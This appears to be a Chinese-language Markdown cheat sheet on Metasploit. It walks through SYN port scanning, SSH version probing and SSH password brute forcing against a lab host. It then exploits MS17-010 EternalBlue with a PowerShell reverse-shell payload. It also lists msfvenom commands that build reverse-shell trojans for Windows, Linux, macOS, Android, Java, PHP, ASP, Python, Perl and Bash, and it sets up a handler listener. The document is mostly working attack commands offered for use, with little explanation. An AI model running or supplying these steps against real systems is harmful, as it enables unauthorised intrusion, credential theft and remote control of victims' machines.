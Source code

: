# metersploit

## 目录
1. docker中使用metasploit
2. 端口扫描
3. 信息收集
4. 账密破解
5. 漏洞利用
6. 木马反弹

## 1.docker中运行
    docker pull metasploitframework/metasploit-framework
    docker run -it 09378b8c0503

### 截图:
![](/websec/tools/metersploit/msf_docker.png)

## 2.端口扫描
    msf5 >search portscan
    msf5 >use auxiliary/scanner/portscan/syn
    msf5 auxiliary(scanner/portscan/syn) > set RHOSTS 10.211.55.6
    msf5 auxiliary(scanner/portscan/syn) > run

### 截图:
![](/websec/tools/metersploit/portscan_1.png)
![](/websec/tools/metersploit/portscan_2.png)

## 3.信息收集
    msf5 > search _version
    msf5 > use auxiliary/scanner/ssh/ssh_version
    msf5 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 10.211.55.6
    msf5 auxiliary(scanner/ssh/ssh_version) > run

### 截图:
![](/websec/tools/metersploit/info_1.png)
![](/websec/tools/metersploit/info_2.png)


## 4.账密破解
    msf5 > search _login
    msf5 > use auxiliary/scanner/ssh/ssh_login
    msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 10.211.55.6
    msf5 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
    msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /OPT/passwd
    msf5 auxiliary(scanner/ssh/ssh_version) > run

### 截图:
![](/websec/tools/metersploit/userpass_1.png)
![](/websec/tools/metersploit/userpass_2.png)


## 5.漏洞利用
    msf5 > search ms17-010
    msf5 > use exploit/windows/smb/ms17_010_eternalblue
    msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.211.55.1
    msf5 exploit(windows/smb/ms17_010_eternalblue) > show payloads    #查看当前exploit支持的payloads
    msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/powershell_reverse_tcp
    msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.211.55.100
    msf5 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 6666
    msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

### 截图:
![](/websec/tools/metersploit/vul_1.png)
![](/websec/tools/metersploit/vul_2.png)
![](/websec/tools/metersploit/vul_3.png)
![](/websec/tools/metersploit/vul_4.png)
## 6.木马反弹

### 生成木马
    windows: msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.146 LPORT=44444 X >test.exe
    linux: msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.2.146 LPORT=1234 X >text
    mac: msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
    android: msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.2.146 LPORT=1234 R >text.apk
    java: msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.2.146 LPORT=1234 W >text.jar
    war: msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
    php: msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.2.146 LPORT=1234 -f raw >text.php
    asp : msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.146 LPORT=1234 -f asp > shell.asp
    aspx: msfvenom -a x86 --platform win -p windows/meterpreter/reverse_tcp LHOST= 192.168.1.109 LPORT=7788 -f aspx x> /home/niexinming/back.aspx
    python: msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
    jsp: msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.2.146 LPORT=1234 R >text.jsp
    perl: msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
    bash: msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

### 监听等待反弹
    msf5 > use exploit/multi/handler
    msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf5 exploit(multi/handler) > set LHOST 10.211.55.100
    msf5 exploit(multi/handler) > set LPORT 4444
    msf5 exploit(multi/handler) > run